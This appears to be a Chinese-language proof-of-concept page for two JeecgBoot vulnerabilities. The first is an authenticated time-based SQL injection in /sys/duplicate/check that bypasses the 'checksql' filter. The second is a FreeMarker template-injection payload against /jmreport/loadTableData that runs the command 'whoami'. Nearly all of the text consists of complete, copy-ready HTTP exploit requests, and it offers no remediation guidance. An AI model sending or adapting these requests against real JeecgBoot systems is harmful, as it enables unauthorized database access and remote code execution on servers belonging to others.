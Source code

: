 ## jeecg-boot sys/duplicate/check SQL注入  
```
/sys/duplicate/check 接口SQL注入，checksql可以被绕过，该漏洞需要进行身份认证。
GET /jeecg-boot/sys/duplicate/check?tableName=v3_hello&fieldName=1+and%09if(user(%20)='root@localhost',sleep(0),sleep(0))&fieldVal=1&dataId=asd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Connection: close
Cache-Control: max-age=0
X_ACCESS_TOKEN: eyJ0eXAi0iJKV1QiLCJhbGci0iJIUzI1Ni J9.eyJleHAi0jE2NzA2NjUy0TQsInVzZXJ uYW1lIjoiYWRtaW4i fQ.bL0e7k3rbFEewdMoL2YfPCo9rtzx7g9 KLjB2LK-J9SU
GET /jeecg-boot/sys/duplicate/check?tableName=sys_log&fieldName=1+and%09if(user(%20)='root@localhost',sleep(0),sleep(10))&fieldVal=1000&dataId=2000 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Connection: close
Cache-Control: max-age=0
X_ACCESS_TOKEN: eyJ0eXAi0iJKV1QiLCJhbGci0iJIUzI1Ni J9.eyJleHAi0jE2NzA2NjUy0TQsInVzZXJ uYW1lIjoiYWRtaW4i fQ.bL0e7k3rbFEewdMoL2YfPCo9rtzx7g9 KLjB2LK-J9SU
```  
  
## JeecgBoot jmreport/loadTableData SSTI模板注入漏洞  
```
jeecg-boot 版本 3.5.3 中的 SSTI 注入漏洞允许远程攻击者通过对 /jmreport/loadTableData 组件进行精心设计的 HTTP 请求执行任意代码。
POST /jeecg-boot/jmreport/loadTableData HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=UTF-8
X-Sign: AD0488642A880C68C8E3551C3BE0F6F5
X-TIMESTAMP: 1699726206096
X-Access-Token: null
token: null
JmReport-Tenant-Id: null
Content-Length: 167
Connection: close
Cookie: Hm_lvt_5819d05c0869771ff6e6a81cdec5b2e8=1699726144; Hm_lpvt_5819d05c0869771ff6e6a81cdec5b2e8=1699726162
{"dbSource":"","sql":"select '<#assign value=\"freemarker.template.utility.Execute\"?new()>${value(\"whoami\")}'","tableName":"test_demo);","pageNo":1,"pageSize":10}
```  
  